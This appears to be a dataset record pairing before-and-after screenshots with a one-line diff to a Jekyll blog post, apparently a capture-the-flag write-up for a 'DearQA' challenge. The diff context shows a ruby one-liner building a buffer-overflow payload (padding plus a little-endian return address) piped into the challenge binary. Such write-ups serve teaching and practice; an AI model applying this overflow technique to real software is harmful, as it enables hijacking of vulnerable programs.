

Before and after one commit to AL1ENUM/al1enum.github.io, a Jekyll site: the page built from _posts/2022-02-22-dearqa.md, in a window 1280 px wide and 1400 px high, scrolled down 4654 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2022-02-22-dearqa.md

````diff
--- a/_posts/2022-02-22-dearqa.md
+++ b/_posts/2022-02-22-dearqa.md
@@ -152,7 +152,6 @@ The little endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\
 
 1. "A"*32 to reach the maximum buffer capacity
 2. "B"*8 to reach the RSP and put the address of the `vuln` function
-3. The
 
 ```bash
 ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA
````
